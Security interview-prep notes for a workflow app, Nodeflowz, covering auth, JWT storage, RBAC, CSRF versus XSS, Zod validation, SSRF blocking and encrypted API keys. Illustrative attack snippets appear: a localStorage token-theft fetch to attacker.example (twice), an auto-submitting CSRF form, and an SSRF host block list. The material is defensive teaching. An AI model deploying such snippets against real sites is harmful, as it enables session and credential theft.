# Section 8: Authentication & Security

This section explains the authentication, authorization, session security,
input validation, credential encryption, and API-key design relevant to
Nodeflowz.

## 51. What is the difference between authentication and authorization? How does Nodeflowz handle both?

Authentication answers:

> Who is making the request?

Authorization answers:

> What is the authenticated user allowed to do?



### Authentication in Nodeflowz

Nodeflowz uses Better Auth with a Prisma adapter:

```ts
export const auth = betterAuth({
  database: prismaAdapter(prisma, {
    provider: "postgresql",
  }),
  emailAndPassword: {
    enabled: true,
    autoSignIn: true,
  },
  socialProviders: {
    github: {
      clientId: process.env.GITHUB_CLIENT_ID as string,
      clientSecret: process.env.GITHUB_CLIENT_SECRET as string,
    },
    google: {
      clientId: process.env.GOOGLE_CLIENT_ID as string,
      clientSecret: process.env.GOOGLE_CLIENT_SECRET as string,
    },
  },
});
```

Supported authentication methods include:

- Email and password.
- GitHub OAuth.
- Google OAuth.
- Session-based authentication stored through Prisma.

The Prisma schema contains:

```prisma
model User {
  id       String @id
  sessions Session[]
  accounts Account[]
}

model Session {
  id        String @id
  token     String @unique
  userId    String
  expiresAt DateTime
}

model Account {
  id         String @id
  providerId String
  userId     String
}
```

### Authorization in Nodeflowz

tRPC's `protectedProcedure` verifies the session:

```ts
export const protectedProcedure = baseProcedure.use(
  async ({ ctx, next }) => {
    const session = await auth.api.getSession({
      headers: await headers(),
    });

    if (!session) {
      throw new TRPCError({
        code: "UNAUTHORIZED",
        message: "Unauthorized",
      });
    }

    return next({
      ctx: {
        ...ctx,
        auth: session,
      },
    });
  },
);
```

Resource ownership is checked with the authenticated user ID:

```ts
const workflow = await prisma.workflow.findUniqueOrThrow({
  where: {
    id: input.id,
    userId: ctx.auth.user.id,
  },
});
```

Subscription-based authorization uses `premiumProcedure`:

```ts
if (!hasActiveSubscription) {
  throw new TRPCError({
    code: "FORBIDDEN",
    message: "Active subscription required",
  });
}
```



### Interview Answer

> Authentication verifies identity, while authorization decides what that
> identity can access. Nodeflowz authenticates users with Better Auth through
> email/password and OAuth providers. Authorization is enforced with protected
> tRPC procedures, user ownership filters on workflows and credentials, and
> premium procedures that require an active subscription.

## 52. What is a JWT? What are its parts, and where should it be stored?

A JWT, or JSON Web Token, is a compact token format used to represent signed
claims.

A JWT has three Base64URL-encoded parts separated by dots:

```text
header.payload.signature
```



### Header

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

The header identifies the signing algorithm and token type.

### Payload

```json
{
  "sub": "user_123",
  "email": "user@example.com",
  "exp": 1780000000
}
```

The payload contains claims such as:

- Subject or user ID.
- Expiration time.
- Issuer.
- Audience.
- Permissions or scopes.

The payload is encoded, not encrypted. Anyone who obtains the token can decode
its claims.

### Signature

The signature proves that the token has not been modified:

```text
HMACSHA256(
  base64Url(header) + "." + base64Url(payload),
  signingSecret
)
```

### `localStorage`

```ts
localStorage.setItem("accessToken", token);
```

Advantages:

- Easy for JavaScript applications to access.

Risks:

- Any successful XSS attack can read and exfiltrate the token.
- Developers must manually attach and refresh tokens.
- Long-lived tokens are especially dangerous.

Malicious script:

```ts
const token = localStorage.getItem("accessToken");

await fetch("https://attacker.example/steal", {
  method: "POST",
  body: token,
});
```

### `httpOnly` Cookie

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax
```

Advantages:

- Browser JavaScript cannot read an `httpOnly` cookie.
- `Secure` prevents transmission over plain HTTP.
- `SameSite` reduces many CSRF attacks.
- Browser sends the cookie automatically.

Trade-off:

- Cookie-based sessions require CSRF protections for sensitive operations.



### JWT Security Rules

- Verify the signature.
- Validate `exp`, `iss`, and `aud`.
- Do not place secrets in the payload.
- Use short-lived access tokens.
- Rotate signing keys.
- Reject weak or unexpected algorithms.
- Use secure cookie settings for browser sessions.

### Interview Answer

> A JWT contains a header, payload, and signature. The payload contains claims
> but is not encrypted, while the signature prevents tampering. Storing a JWT
> in `localStorage` makes it accessible to injected JavaScript during XSS. For
> browser sessions, I prefer secure `httpOnly` cookies because JavaScript cannot
> read them, while also using `SameSite`, origin checks, and CSRF protection.

## 53. How did you implement role-based access control? What roles exist?

Strict role-based access control is not currently modeled in the Nodeflowz
Prisma schema. There is no role enum such as `ADMIN`, `SUPPORT`, or `USER`.

The existing authorization model is based on:

1. Anonymous versus authenticated access.
2. Resource ownership.
3. Active subscription status.



Current effective access levels:

| Level | Capabilities |
|---|---|
| Anonymous | Login and signup pages |
| Authenticated user | Access own permitted resources |
| Premium subscriber | Access subscription-gated operations |

### Adding RBAC

Add roles:

```prisma
enum Role {
  USER
  SUPPORT
  ADMIN
}

model User {
  id   String @id
  role Role   @default(USER)
}
```

Create reusable authorization middleware:

```ts
function requireRole(allowedRoles: Role[]) {
  return protectedProcedure.use(({ ctx, next }) => {
    if (!allowedRoles.includes(ctx.auth.user.role)) {
      throw new TRPCError({
        code: "FORBIDDEN",
        message: "Insufficient permissions",
      });
    }

    return next();
  });
}
```

Usage:

```ts
const adminProcedure = requireRole([Role.ADMIN]);

const supportProcedure = requireRole([
  Role.ADMIN,
  Role.SUPPORT,
]);
```

### RBAC vs Resource Ownership

RBAC does not replace ownership checks.

For example, a normal user may have permission to update workflows, but only
their own workflows:

```ts
where: {
  id: input.id,
  userId: ctx.auth.user.id,
}
```



### Interview Answer

> The current project does not implement strict RBAC. It uses authentication,
> resource ownership, and subscription-based feature gates. The effective
> levels are anonymous, authenticated user, and premium subscriber. To add
> RBAC, I would add a `Role` enum to `User` and enforce role requirements
> through reusable tRPC middleware while still keeping per-resource ownership
> checks.

## 54. What is CSRF, and how does it differ from XSS?

XSS and CSRF are different attacks.

### Cross-Site Scripting

XSS occurs when attacker-controlled JavaScript executes inside the trusted
application origin.

An injected script may:

- Read non-httpOnly browser storage.
- Make authenticated requests.
- Modify the page.
- Exfiltrate visible data.

Example:

```html
<script>
  fetch("https://attacker.example/steal", {
    method: "POST",
    body: localStorage.getItem("accessToken")
  });
</script>
```

### Cross-Site Request Forgery

CSRF occurs when another site causes a victim's browser to send an unwanted
authenticated request. This works because browsers automatically attach
cookies to matching requests.

Example:

```html
<form
  action="https://nodeflowz.example/api/workflows/delete"
  method="POST"
>
  <input name="id" value="workflow_123" />
</form>

<script>
  document.forms[0].submit();
</script>
```



### SameSite Cookies

A secure session cookie may look like:

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax
```

`SameSite` behavior:

| Value | Behavior |
|---|---|
| `Strict` | Cookie is not sent in cross-site contexts |
| `Lax` | Blocks many cross-site subrequests while allowing normal top-level navigation |
| `None` | Allows cross-site use and requires `Secure` |

`SameSite=Lax` or `Strict` mitigates many CSRF attacks, but it should not be the
only defense.

### Additional CSRF Defenses

- Validate request `Origin`.
- Validate `Host`.
- Use anti-CSRF tokens for sensitive operations.
- Avoid state-changing `GET` requests.
- Require custom headers for API mutations.
- Use secure, same-site cookies.

Origin validation:

```ts
function assertSameOrigin(request: Request) {
  const origin = request.headers.get("origin");
  const host = request.headers.get("host");

  if (!origin || !host) {
    return;
  }

  if (new URL(origin).host !== host) {
    throw new Error("Invalid request origin");
  }
}
```

### XSS Defenses

- Escape rendered output.
- Avoid unsafe HTML rendering.
- Apply a Content Security Policy.
- Validate and sanitize user content.
- Keep dependencies patched.
- Use `httpOnly` cookies to reduce token theft.

### Interview Answer

> XSS executes attacker-controlled JavaScript inside the application, while
> CSRF tricks the browser into sending an authenticated request from another
> site. Secure `httpOnly` cookies reduce token theft during XSS, and `SameSite`
> cookies reduce many CSRF attacks. For sensitive mutations I would also
> validate origins and use CSRF tokens where appropriate.

## 55. How did you validate and sanitize workflow data and webhook payloads?

Nodeflowz validates tRPC inputs with Zod.

For workflow updates:

```ts
update: protectedProcedure
  .input(
    z.object({
      id: z.string(),
      nodes: z.array(
        z.object({
          id: z.string(),
          type: z.string().nullish(),
          position: z.object({
            x: z.number(),
            y: z.number(),
          }),
          data: z.record(z.string(), z.any()).optional(),
        }),
      ),
      edges: z.array(
        z.object({
          source: z.string(),
          target: z.string(),
          sourceHandle: z.string().nullish(),
          targetHandle: z.string().nullish(),
        }),
      ),
    }),
  )
```

This validates the outer graph structure. However, the node configuration is
currently permissive:

```ts
data: z.record(z.string(), z.any()).optional()
```

For stronger validation, define schemas for every node type.

```ts
const openAiNodeSchema = z.object({
  id: z.string(),
  type: z.literal(NodeType.OPENAI),
  position: z.object({
    x: z.number().finite(),
    y: z.number().finite(),
  }),
  data: z.object({
    variableName: z.string().min(1).max(100),
    credentialId: z.string().min(1),
    systemPrompt: z.string().max(10_000).optional(),
    userPrompt: z.string().min(1).max(20_000),
  }),
});

const httpRequestNodeSchema = z.object({
  id: z.string(),
  type: z.literal(NodeType.HTTP_REQUEST),
  position: z.object({
    x: z.number().finite(),
    y: z.number().finite(),
  }),
  data: z.object({
    url: z.string().url(),
    method: z.enum(["GET", "POST", "PUT", "PATCH", "DELETE"]),
    headers: z.record(z.string(), z.string()).optional(),
    body: z.string().max(100_000).optional(),
  }),
});
```

Discriminated union:

```ts
const workflowNodeSchema = z.discriminatedUnion("type", [
  openAiNodeSchema,
  httpRequestNodeSchema,
]);
```

### Webhook Payload Validation

Current webhook handlers parse JSON directly:

```ts
const body = await request.json();
```

A safer approach validates the payload:

```ts
const stripeTriggerEventSchema = z.object({
  id: z.string(),
  type: z.string(),
  created: z.number(),
  livemode: z.boolean(),
  data: z.object({
    object: z.unknown(),
  }),
});

const body = stripeTriggerEventSchema.parse(
  await request.json(),
);
```

Webhook signature verification is also required so a valid-looking payload from
an attacker is rejected.

### Injection Defenses by Context



| Risk | Defense |
|---|---|
| SQL injection | Prisma parameterized queries |
| XSS | Escape output and avoid unsafe HTML |
| SSRF through HTTP nodes | Block unsafe protocols, private IPs, and metadata services |
| Template abuse | Restrict Handlebars helpers and context |
| Oversized payloads | Enforce input size limits |
| Webhook spoofing | Verify provider signature |
| Prompt injection | Treat interpolated data as untrusted |

### SSRF Protection

HTTP workflow nodes are especially sensitive because users control the URL.

```ts
function assertSafeHttpUrl(value: string) {
  const url = new URL(value);

  if (!["http:", "https:"].includes(url.protocol)) {
    throw new Error("Only HTTP and HTTPS URLs are allowed");
  }

  const blockedHosts = new Set([
    "localhost",
    "127.0.0.1",
    "169.254.169.254",
  ]);

  if (blockedHosts.has(url.hostname)) {
    throw new Error("Target host is not allowed");
  }
}
```

A complete implementation must also resolve DNS and reject private network
ranges to prevent DNS rebinding and alternate IP formats.

### Interview Answer

> Nodeflowz validates tRPC inputs with Zod and uses Prisma's parameterized
> queries to reduce SQL injection risk. The current graph schema validates the
> outer structure but node `data` is still permissive. I would strengthen it
> with discriminated per-node schemas, validate and verify webhooks, enforce
> payload limits, escape output, and add SSRF protection for HTTP request nodes.

## 56. How would you securely store third-party API keys?

Nodeflowz stores user-configured third-party keys in a `Credential` model:

```prisma
model Credential {
  id        String @id @default(cuid())
  name      String
  value     String
  type      CredentialType
  createdAt DateTime @default(now())
  updatedAt DateTime @updatedAt

  userId String
  user   User @relation(fields: [userId], references: [id], onDelete: Cascade)
  Node   Node[]
}
```

Credential types include:

```prisma
enum CredentialType {
  OPENAI
  ANTHROPIC
  GEMINI
  TINYFISH
  GOOGLE_SHEETS
}
```

Values are encrypted before storage:

```ts
return prisma.credential.create({
  data: {
    name,
    userId: ctx.auth.user.id,
    type,
    value: encrypt(value),
  },
});
```

Executors load credentials only for the owning user:

```ts
const credential = await prisma.credential.findUnique({
  where: {
    id: data.credentialId,
    userId,
  },
});
```

The value is decrypted only on the server:

```ts
const openai = createOpenAI({
  apiKey: decrypt(credential.value),
});
```



### Security Rules

- Never store raw keys.
- Never log decrypted values.
- Never return credential values in list APIs.
- Scope every credential query by user or tenant.
- Decrypt only immediately before use.
- Keep encryption keys outside the database.
- Record credential access in audit logs.
- Support credential revocation and rotation.

### Envelope Encryption

For production, use a cloud KMS and envelope encryption:



Suggested schema:

```prisma
model Credential {
  id             String @id @default(cuid())
  name           String
  encryptedValue String
  encryptedDataKey String
  keyVersion     String
  initializationVector String
  authTag        String
  type           CredentialType
  userId         String
}
```

The master key remains in KMS, not in the application database.

### Credential Response Design

Do not return the encrypted or decrypted value:

```ts
const credentials = await prisma.credential.findMany({
  where: {
    userId,
  },
  select: {
    id: true,
    name: true,
    type: true,
    createdAt: true,
    updatedAt: true,
  },
});
```

### Interview Answer

> Nodeflowz encrypts third-party credentials before storing them and decrypts
> them only inside server-side executors. Every credential lookup is scoped to
> the owning user. I would never return or log the secret value. For a
> production system, I would use KMS-backed envelope encryption with key
> versions, audit access, and a rotation strategy.

## 57. How would you implement short-lived API keys with automatic rotation?

For a public developer API, raw API keys should be displayed only once and
stored only as hashes.

A key format can separate a public identifier from the secret:

```text
nf_live_publicId.secretValue
```

Example:

```text
nf_live_abc123.very-long-random-secret
```

The public ID lets the server locate the key record without scanning every hash.

### Schema

```prisma
model ApiKey {
  id             String   @id @default(cuid())
  publicId       String   @unique
  secretHash     String
  userId         String
  name           String
  scopes         String[]
  expiresAt      DateTime
  revokedAt      DateTime?
  lastUsedAt     DateTime?
  replacementFor String?
  createdAt      DateTime @default(now())

  @@index([userId])
  @@index([expiresAt])
}
```

### Key Generation

```ts
import crypto from "node:crypto";

function generateApiKey() {
  const publicId = crypto.randomBytes(8).toString("hex");
  const secret = crypto.randomBytes(32).toString("base64url");

  return {
    publicId,
    secret,
    rawKey: `nf_live_${publicId}.${secret}`,
  };
}

function hashApiKeySecret(secret: string) {
  return crypto
    .createHash("sha256")
    .update(secret)
    .digest("hex");
}
```

Create and store:

```ts
async function createApiKey(input: {
  userId: string;
  name: string;
  scopes: string[];
}) {
  const generated = generateApiKey();

  await prisma.apiKey.create({
    data: {
      publicId: generated.publicId,
      secretHash: hashApiKeySecret(generated.secret),
      userId: input.userId,
      name: input.name,
      scopes: input.scopes,
      expiresAt: new Date(Date.now() + 30 * 24 * 60 * 60 * 1000),
    },
  });

  return generated.rawKey;
}
```

The raw key is returned once. Only the hash remains in the database.

### Authenticate a Request

```ts
import crypto from "node:crypto";

async function authenticateApiKey(rawKey: string) {
  const [prefix, secret] = rawKey.split(".");

  if (!prefix || !secret || !prefix.startsWith("nf_live_")) {
    throw new Error("Invalid API key");
  }

  const publicId = prefix.replace("nf_live_", "");

  const key = await prisma.apiKey.findUnique({
    where: {
      publicId,
    },
  });

  if (!key || key.revokedAt || key.expiresAt <= new Date()) {
    throw new Error("Invalid API key");
  }

  const suppliedHash = hashApiKeySecret(secret);

  const matches = crypto.timingSafeEqual(
    Buffer.from(suppliedHash),
    Buffer.from(key.secretHash),
  );

  if (!matches) {
    throw new Error("Invalid API key");
  }

  await prisma.apiKey.update({
    where: {
      id: key.id,
    },
    data: {
      lastUsedAt: new Date(),
    },
  });

  return {
    userId: key.userId,
    scopes: key.scopes,
    apiKeyId: key.id,
  };
}
```

### Scope Enforcement

```ts
function requireScope(
  grantedScopes: string[],
  requiredScope: string,
) {
  if (!grantedScopes.includes(requiredScope)) {
    throw new Error(`Missing required scope: ${requiredScope}`);
  }
}
```

Example scopes:

```text
workflows:read
workflows:write
workflows:execute
executions:read
```

### Automatic Rotation

Before a key expires, issue a replacement and allow a short overlap period.



Rotation process:

```ts
async function findKeysRequiringRotation() {
  const rotationThreshold = new Date(
    Date.now() + 7 * 24 * 60 * 60 * 1000,
  );

  return prisma.apiKey.findMany({
    where: {
      expiresAt: {
        lte: rotationThreshold,
      },
      revokedAt: null,
      replacementFor: null,
    },
  });
}
```

Important limitation:

> Fully automatic rotation cannot silently deliver a new raw API key to an
> external developer unless a secure delivery or retrieval mechanism exists.

Safer options include:

- Let the developer request a replacement.
- Provide a secure portal where the replacement is revealed once.
- Use OAuth client credentials instead of long-lived static API keys.
- Allow overlapping old and new keys during migration.

### Audit and Abuse Controls

- Per-key rate limits.
- Last-used timestamp.
- Last-used IP and region.
- Audit log for creation, rotation, and revocation.
- Immediate revocation endpoint.
- Expiration enforcement.
- Scope restrictions.
- Alerts for unusual usage.

### Interview Answer

> I would generate API keys with a public ID and a high-entropy secret, show the
> raw key once, and store only its hash. Each key has scopes, expiration,
> rate limits, last-used tracking, and revocation state. Before expiry, the
> system creates a replacement and supports an overlap period. Since the raw
> replacement must be delivered securely, I would expose it once through an
> authenticated developer portal or use OAuth client credentials for fully
> automated rotation.
